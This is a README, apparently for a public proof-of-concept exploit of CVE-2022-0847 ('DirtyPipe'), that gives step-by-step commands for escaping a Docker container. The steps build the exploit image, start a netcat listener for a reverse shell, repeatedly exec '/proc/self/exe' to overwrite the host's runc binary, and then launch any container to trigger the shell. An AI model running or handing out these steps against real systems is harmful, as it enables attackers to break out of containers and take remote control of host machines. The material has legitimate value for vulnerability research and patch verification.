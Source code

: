 # DirtyPipe PoC
Container Escape PoC for CVE-2022-0847 "DirtyPipe"

## Usage
1. Build
```
$ docker build -t dirtypipe .
$ docker run --name dirtypipe -it dirtypipe
```

2. Start listener in another terminal:
`$ nc -nlvp 4444`

3. In yet another terminal (may need to be repeated a few times):
```
$ docker exec -it dirtypipe /proc/self/exe
```

4. Once runc is overwritten, run any container (or exec again). Reverse shell should be triggered.
```
$ docker run -it ubuntu:latest
```

## Screenshots
![image](https://user-images.githubusercontent.com/85519958/157739931-fa30b757-e275-4749-a82b-fb806f651299.png)
